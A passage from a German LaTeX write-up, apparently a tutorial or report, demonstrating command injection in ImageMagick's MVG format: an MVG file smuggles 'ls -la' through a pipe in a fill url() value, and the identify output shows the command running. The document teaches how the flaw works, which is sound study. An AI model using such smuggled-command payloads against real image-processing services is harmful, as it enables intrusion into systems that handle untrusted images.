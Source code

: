 \newpage
\subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben,
welcher die Dateien des aktuellen Verzeichnis auflistet.\\


Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden,
dass vorher im Hintergrund der hinterlegte Command ausgeführt wird.
